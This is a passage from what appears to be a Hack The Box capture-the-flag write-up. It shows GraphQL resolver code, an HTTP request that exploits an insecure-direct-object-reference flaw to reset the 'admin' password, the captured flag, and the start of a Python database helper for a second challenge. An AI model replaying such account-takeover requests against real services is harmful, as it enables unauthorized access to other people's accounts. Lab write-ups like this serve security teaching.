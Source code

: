 ```javascript

                    db.updatePassword(args.username, args.password)
                        .then(() => resolve(response("Password updated successfully!")))
                        .catch(err => reject(new GraphQLError(err)));
                });
            }
        },

        AddPhrase: {
            type: ResponseType,
            args: {
                recType: { type: new GraphQLNonNull(GraphQLString) },
                recAddr: { type: new GraphQLNonNull(GraphQLString) },
                recUser: { type: new GraphQLNonNull(GraphQLString) },
                recPass: { type: new GraphQLNonNull(GraphQLString) },
                recNote: { type: new GraphQLNonNull(GraphQLString) },
            },
            resolve: async (root, args, request) => {
                return new Promise((resolve, reject) => {
                    if (!request.user) return reject(new GraphQLError('Authentication required!'));

                    db.addPhrase(request.user.username, args)
                        .then(() => resolve(response("Phrase added successfully!")))
                        .catch(err => reject(new GraphQLError(err)));
                });
            }
        },
    }
});
```

```
POST /graphql HTTP/1.1
Host: XXX
User-Agent: XXX
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: XXX
Content-Type: application/json
Origin: XXX
Content-Length: 102
Connection: close
Cookie: XXX
{
"query": "mutation { UpdatePassword(username: \"admin\", password: \"newpassword\") { message } }"
}
```

HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}

## Web - Orbital
database.py
```python
from colorama import Cursor
from application.util import createJWT, passwordVerify
from flask_mysqldb import MySQL

mysql = MySQL()

def query(query, args=(), one=False):
    cursor = mysql.connection.cursor()
    cursor.execute(query, args)
    rv = [dict((cursor.description[idx][0], value)
```